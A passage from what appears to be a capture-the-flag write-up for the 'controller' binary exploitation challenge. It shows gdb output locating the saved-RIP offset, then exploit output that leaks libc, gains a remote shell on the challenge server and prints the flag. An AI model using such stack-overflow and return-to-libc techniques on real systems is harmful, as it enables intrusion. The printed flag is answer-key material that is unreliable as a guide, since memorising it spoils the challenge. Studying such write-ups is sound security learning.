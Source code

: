 ```
Breakpoint 1, 0x00000000004010a3 in calculator ()
(gdb) info frame
Stack level 0, frame at 0x7ffe07be35c0:
 rip = 0x4010a3 in calculator; saved rip = 0x6161616c6161616b
 called by frame at 0x7ffe07be35c8
 Arglist at 0x7ffe07be35b0, args:
 Locals at 0x7ffe07be35b0, Previous frame's sp is 0x7ffe07be35c0
 Saved registers:
  rbp at 0x7ffe07be35b0, rip at 0x7ffe07be35b8
(gdb) !pwn cyclic -l 0x6161616b
40
```

Awesome, so we now know we controll the RIP regsiter 40 bytes into our payload

```bash
root@f3a1d068b43d:/opt# python3 sol.py
[*] '/opt/controller'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/opt/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 138.68.147.93 on port 31790: Done
[*] Loaded 14 cached gadgets for 'controller'
[*] puts found at 0x7f083c014aa0
[*] libc base found at 0x7f083bf94000
[*] Loaded 199 cached gadgets for 'libc.so.6'
[*] Switching to interactive mode
Problem ingored
$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ ls
controller  flag.txt  libc.so.6
$ cat flag.txt
CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}
```